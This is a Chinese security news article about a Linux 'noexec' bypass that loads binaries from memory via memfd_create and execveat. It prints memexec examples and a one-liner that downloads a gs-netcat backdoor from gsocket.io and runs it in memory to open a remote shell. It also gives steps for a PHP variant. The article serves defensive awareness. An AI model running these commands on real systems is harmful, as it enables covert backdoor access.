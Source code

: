 #  Linux系统安全告急：新技术绕过“noexec”，任意代码执行风险激增   
 安全客   2024-10-16 15:01  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Ok4fxxCpBb5qs5TXnKpQQFibbvJWWqciaF3oM7atQnRPFyHGSY3CALnsvXk6SkRvdeqep4nPN68tHNy33wlTKMhw/640?wx_fmt=other&from=appmsg "")  
  
  
安全研究人员近日披露了一种全新的技术，**攻击者可以利用该技术绕过Linux系统中的“noexec”标志**，甚至在配置了此标志以防止执行恶意代码的分区上，也能执行恶意代码。  
  
  
“noexec”标志是Linux中的一个关键安全措施，旨在防止在特定分区上执行二进制文件，如/tmp或/dev/shm。这一限制设计用于阻止攻击者上传并在这些常被攻击的区域执行恶意软件。然而，最新发现的方法巧妙地结合了Perl、Bash和PHP脚本，成功绕过了这一保护机制。  
  
  
这一技术尤其令人担忧的是，它能够在启用了“noexec”的分区上执行直接从互联网下载的二进制文件。其原理是利用系统调用（如memfd_create和execveat）将shellcode注入到运行中的进程中，并从内存中加载二进制文件。而且，该方法不需要root权限，这使得更多潜在攻击者能够利用它。  
  
  
研究人员通过演示展示了该技术的有效性，常见的命令如id在没有root权限的情况下也能在启用了“noexec”的分区上执行。更令人警惕的是，他们展示了攻击者如何利用这种方法，通过简单的命令从远程服务器下载并执行恶意代码。  
  
  
一个Perl示例展示了如何在没有root权限的情况下执行id命令：  
```
source memexec-perl.sh
cat /usr/bin/id | memexec -u
```  
  
  
Bash中同样可以实现类似的操作：  
```
source memexec-bash.sh
cat /usr/bin/id | memexec
```  
  
  
对有经验的读者来说，这通常意味着可以将来自互联网的后门直接导入内存，即便在“noexec”分区上禁止执行：  
```
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-x86_64 | GS_ARGS="-ilDq -s ChangeMe" perl '-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}X,@ARGV' -- "$@"
```  
  
  
该方法通过类似的脚本有效绕过了PHP中的命令执行限制，这对于依赖此类限制来防范恶意代码的系统而言，构成了一个重大的安全漏洞。  
```
Upload memexec.php and egg (your backdoor) onto the target
Call curl -SsfL https://target/memexec.php will execute egg
```  
  
  
研究人员仍在继续分析这一技术及其对Linux系统安全的潜在影响，强调需要实施额外的安全防护措施，以防止这种方法在实际攻击中被利用。研究人员还建议应监控对系统调用的访问并限制其使用，特别是在安全需求较高的环境中。  
  
  
  
文章来源：  
  
https://securityonline.info/linux-systems-vulnerable-to-new-noexec-bypass-technique-arbitrary-code-execution-now-possible/  
  
  
**推荐阅读**  
  
  
  
  
  
<table><tbody><tr opera-tn-ra-comp="_$.pages:0.layers:0.comps:15.classicTable1:0"><td colspan="1" rowspan="1" opera-tn-ra-cell="_$.pages:0.layers:0.comps:15.classicTable1:0.td@@0" style="border-color: rgb(62, 62, 62);border-style: none;padding: 0px;" width="100.0000%"><section style="display: flex;flex-flow: row;margin-top: 10px;margin-right: 0%;margin-left: 0%;justify-content: flex-start;"><section style="display: inline-block;vertical-align: middle;width: auto;min-width: 10%;height: auto;flex: 0 0 auto;align-self: center;box-shadow: rgb(0, 0, 0) 0px 0px 0px;"><section style="font-size: 14px;color: rgb(5, 193, 183);line-height: 1;letter-spacing: 0px;text-align: center;"><p><strong>01</strong></p></section></section><section style="display: inline-block;vertical-align: middle;width: auto;flex: 100 100 0%;align-self: center;height: auto;"><section style="font-size: 14px;letter-spacing: 1px;line-height: 1.8;color: rgb(140, 140, 140);"><p style="text-wrap: wrap;"><span style="color: rgb(224, 224, 224);">｜</span><span style="color: rgb(224, 224, 224);font-size: 12px;"><a target="_blank" href="http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&amp;mid=2649787034&amp;idx=1&amp;sn=601d3128dda5bfa5e68dd68383a041e6&amp;chksm=8893baf5bfe433e3ec3f75a4834085c3e9714c020268cd733fcb4f2de2390a547ffe654f9133&amp;scene=21#wechat_redirect" textvalue="学校成网络攻击新靶心：国家级黑客与勒索团伙的双重威胁" linktype="text" imgurl="" imgdata="null" data-itemshowtype="0" tab="innerlink" data-linktype="2">学校遭国家级黑客与勒索团伙的双重网络威胁</a></span></p></section></section></section></td></tr><tr opera-tn-ra-comp="_$.pages:0.layers:0.comps:15.classicTable1:1"><td colspan="1" rowspan="1" opera-tn-ra-cell="_$.pages:0.layers:0.comps:15.classicTable1:1.td@@0" style="border-color: rgb(62, 62, 62);border-style: none;padding: 0px;" width="100.0000%"><section style="margin: 5px 0%;"><section style="background-color: rgb(224, 224, 224);height: 1px;"><section style="line-height: 0;color:rgba(0,0,0,0);width:0;"><svg viewBox="0 0 1 1" style="vertical-align:top;"><text x="-10" y="-10">_</text></svg></section></section></section></td></tr></tbody></table>  
  
<table><tbody><tr opera-tn-ra-comp="_$.pages:0.layers:0.comps:16.classicTable1:0"><td colspan="1" rowspan="1" opera-tn-ra-cell="_$.pages:0.layers:0.comps:16.classicTable1:0.td@@0" style="border-color: rgb(62, 62, 62);border-style: none;padding: 0px;" width="100.0000%"><section style="display: flex;flex-flow: row;margin-top: 10px;margin-right: 0%;margin-left: 0%;justify-content: flex-start;"><section style="display: inline-block;vertical-align: middle;width: auto;min-width: 10%;height: auto;flex: 0 0 auto;align-self: center;box-shadow: rgb(0, 0, 0) 0px 0px 0px;"><section style="font-size: 14px;color: rgb(5, 193, 183);line-height: 1;letter-spacing: 0px;text-align: center;"><p><strong>02</strong></p></section></section><section style="display: inline-block;vertical-align: middle;width: auto;flex: 100 100 0%;align-self: center;height: auto;"><section style="font-size: 14px;letter-spacing: 1px;line-height: 1.8;color: rgb(140, 140, 140);"><p style="text-wrap: wrap;"><span style="color: rgb(224, 224, 224);">｜</span><span style="color: rgb(224, 224, 224);font-size: 12px;"><a target="_blank" href="http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&amp;mid=2649787018&amp;idx=1&amp;sn=b72e450d8e3ce822c45ac404d55c09c0&amp;chksm=8893bae5bfe433f3607adef80ddb4a56e18862f1836c8772208a5b19b12dabb29b927a067013&amp;scene=21#wechat_redirect" textvalue="全球资产管理巨头富达投资数据泄露：7.7万客户信息遭曝光" linktype="text" imgurl="" imgdata="null" data-itemshowtype="0" tab="innerlink" data-linktype="2">全球资产管理巨头富达投资数据泄露</a></span></p></section></section></section></td></tr><tr opera-tn-ra-comp="_$.pages:0.layers:0.comps:16.classicTable1:1"><td colspan="1" rowspan="1" opera-tn-ra-cell="_$.pages:0.layers:0.comps:16.classicTable1:1.td@@0" style="border-color: rgb(62, 62, 62);border-style: none;padding: 0px;" width="100.0000%"><section style="margin: 5px 0%;"><section style="background-color: rgb(224, 224, 224);height: 1px;"><section style="line-height: 0;color:rgba(0,0,0,0);width:0;"><svg viewBox="0 0 1 1" style="vertical-align:top;"><text x="-10" y="-10">_</text></svg></section></section></section></td></tr></tbody></table>  
  
<table><tbody><tr opera-tn-ra-comp="_$.pages:0.layers:0.comps:17.classicTable1:0"><td colspan="1" rowspan="1" opera-tn-ra-cell="_$.pages:0.layers:0.comps:17.classicTable1:0.td@@0" style="border-color: rgb(62, 62, 62);border-style: none;padding: 0px;" width="100.0000%"><section style="display: flex;flex-flow: row;margin-top: 10px;margin-right: 0%;margin-left: 0%;justify-content: flex-start;"><section style="display: inline-block;vertical-align: middle;width: auto;min-width: 10%;height: auto;flex: 0 0 auto;align-self: center;box-shadow: rgb(0, 0, 0) 0px 0px 0px;"><section style="font-size: 14px;color: rgb(5, 193, 183);line-height: 1;letter-spacing: 0px;text-align: center;"><p><strong>03</strong></p></section></section><section style="display: inline-block;vertical-align: middle;width: auto;flex: 100 100 0%;align-self: center;height: auto;"><section style="font-size: 14px;letter-spacing: 1px;line-height: 1.8;color: rgb(140, 140, 140);"><p style="text-wrap: wrap;"><span style="color: rgb(224, 224, 224);">｜</span><span style="color: rgb(224, 224, 224);font-size: 12px;"><a target="_blank" href="http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&amp;mid=2649787006&amp;idx=1&amp;sn=6a1294633f133c80bcae983dec1e194c&amp;chksm=8893ba11bfe433072580939410d1f220f03f97f3ce0bc4baa344c1e5ad825a49f74dd40f9806&amp;scene=21#wechat_redirect" textvalue="全球警报：Lua恶意软件攻击瞄准教育行业和游戏社区！" linktype="text" imgurl="" imgdata="null" data-itemshowtype="0" tab="innerlink" data-linktype="2">Lua恶意软件攻击瞄准教育行业和游戏社区</a></span></p></section></section></section></td></tr><tr opera-tn-ra-comp="_$.pages:0.layers:0.comps:17.classicTable1:1"><td colspan="1" rowspan="1" opera-tn-ra-cell="_$.pages:0.layers:0.comps:17.classicTable1:1.td@@0" style="border-color: rgb(62, 62, 62);border-style: none;padding: 0px;" width="100.0000%"><section style="margin: 5px 0%;"><section style="background-color: rgb(224, 224, 224);height: 1px;"><section style="line-height: 0;color:rgba(0,0,0,0);width:0;"><svg viewBox="0 0 1 1" style="vertical-align:top;"><text x="-10" y="-10">_</text></svg></section></section></section></td></tr></tbody></table>  
  
  
**安全KER**  
  
  
安全KER致力于搭建国内安全人才学习、工具、淘金、资讯一体化开放平台，推动数字安全社区文化的普及推广与人才生态的链接融合。目前，安全KER已整合全国数千位白帽资源，联合南京、北京、广州、深圳、长沙、上海、郑州等十余座城市，与ISC、XCon、看雪SDC、Hacking Group等数个中大型品牌达成合作。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ok4fxxCpBb5qs5TXnKpQQFibbvJWWqciaF3aew57rSKWRJ4pyvJak3OKGBlT7k28aYu0j4WkdjXibATibJicTbibekMQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ok4fxxCpBb5qs5TXnKpQQFibbvJWWqciaFBdvPK8k3GyEUZBtVbicZKaOCl0ffW6gF8Jibt184xlfiav6hX5Ka5mtPA/640?wx_fmt=png&from=appmsg "")  
  
**注册安全KER社区**  
  
**链接最新“圈子”动**  
  

